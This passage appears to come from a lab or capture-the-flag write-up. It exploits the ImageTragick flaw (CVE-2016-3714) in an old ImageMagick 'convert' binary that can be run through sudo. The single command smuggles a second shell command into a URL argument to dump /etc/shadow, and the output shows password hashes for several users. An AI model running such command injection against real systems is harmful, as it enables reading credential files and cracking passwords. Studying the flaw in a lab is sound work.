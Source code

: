 
This convert is a part of ImageMagick 6.7.7-10. 
```
margo@gibson:~$ convert --help
Version: ImageMagick 6.7.7-10 2014-03-06 Q16 http://www.imagemagick.org
....
....
....
```

With this version it's vulnerable to arbitrary code execution
[CVE-2016-3714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714)
for PoC/Exploit
[Ref-1](https://imagetragick.com/)

So let's check it.
```
margo@gibson:~$ sudo convert 'https://example.com"|cat "/etc/shadow' out.png
root:!:16921:0:99999:7:::
daemon:*:16652:0:99999:7:::
bin:*:16652:0:99999:7:::
sys:*:16652:0:99999:7:::
sync:*:16652:0:99999:7:::
games:*:16652:0:99999:7:::
man:*:16652:0:99999:7:::
lp:*:16652:0:99999:7:::
mail:*:16652:0:99999:7:::
news:*:16652:0:99999:7:::
uucp:*:16652:0:99999:7:::
proxy:*:16652:0:99999:7:::
www-data:*:16652:0:99999:7:::
backup:*:16652:0:99999:7:::
list:*:16652:0:99999:7:::
irc:*:16652:0:99999:7:::
gnats:*:16652:0:99999:7:::
nobody:*:16652:0:99999:7:::
libuuid:!:16652:0:99999:7:::
syslog:*:16652:0:99999:7:::
messagebus:*:16921:0:99999:7:::
dnsmasq:*:16921:0:99999:7:::
landscape:*:16921:0:99999:7:::
sshd:*:16921:0:99999:7:::
libvirt-qemu:!:16921:0:99999:7:::
libvirt-dnsmasq:!:16921:0:99999:7:::
duke:$6$xRLSRx7x$O.REaRUKj6zM.ZAYFBfZEfq.iyoiHKlpNCFlh9D8gQBfRdldL05vAxHmjuTgriKCetSADyWyLKvklZhcQp7mu1:16928:0:99999:7:::
colord:*:16922:0:99999:7:::
eugene:$6$UU15rhob$qZ5B2VjeCk9QIlxXS6QDf9MuxFpNkfAQTc3V3ny.57kLHLj1aOdLnmprfL53niAfztzGMLJqSZaS79sYY1X1a/:16928:0:99999:7:::
margo:$6$Nx0eYFUO$f99BzOSc/hBLbflCsV5912gdcNNUKRi/xGTz7xldbr402BQ367eN.GsCScejNNotaJg9oQPhqdzqq/DcHCKYD/:16928:0:99999:7:::
convert.im6: no decode delegate for this image format `/tmp/magick-SaVZTAEJ' @ error/constitute.c/ReadImage/578.
convert.im6: no images defined `out.png' @ error/convert.c/ConvertImageCommand/3044.
margo@gibson:~$
```
